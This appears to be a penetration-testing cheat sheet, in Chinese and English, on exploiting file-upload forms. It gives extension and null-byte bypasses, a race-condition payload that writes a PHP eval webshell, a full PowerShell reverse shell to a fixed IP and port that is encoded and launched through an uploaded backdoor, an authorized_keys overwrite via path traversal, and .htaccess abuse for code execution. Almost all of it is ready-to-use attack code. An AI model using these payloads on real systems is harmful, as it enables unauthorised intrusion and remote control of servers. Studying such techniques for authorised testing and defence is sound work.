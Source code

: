 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
For Windows
```
test.jsp.
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_GET[cmd])?>');?>
```
### 文件类型特征码（Convert to ascii in burp）
Put the corresponding file signature code in front of the file content in burp 
```
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
```
### Powershell reverse shell
```
kali: pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20(replaced by $EncodedText)
```

### If can't execute uploaded file, try overwriting file
```
ssh-keygen
filename: fileup
cat fileup > authorized_keys
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
### Webshell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
### Upload .htaccess to rce
Blue teamers and developers are usually quick to blacklist file extensions, but rarely consider how webserver configuration files themselves can be exploited. Hence why the .htaccess technique can be so dangerous, even leading to RCE.

This file isn't directly an RCE vector, but it does allow for the definition of new valid PHP extensions, which can then be uploaded to the server (as they are not blacklisted).

An example .htaccess file that can be used to add a new PHP extension is:  
.hataccess 
```
AddType application/x-httpd-php .evil
```
Note that this attack relies on the following options being enabled, and NGINX does not support .htaccess files.
```
/etc/apache2/apache2.conf:      AllowOverride Options
/etc/apache2/apache2.conf:      AllowOverride FileInfo
```
Upload webshell.evil, then access webshell.evil
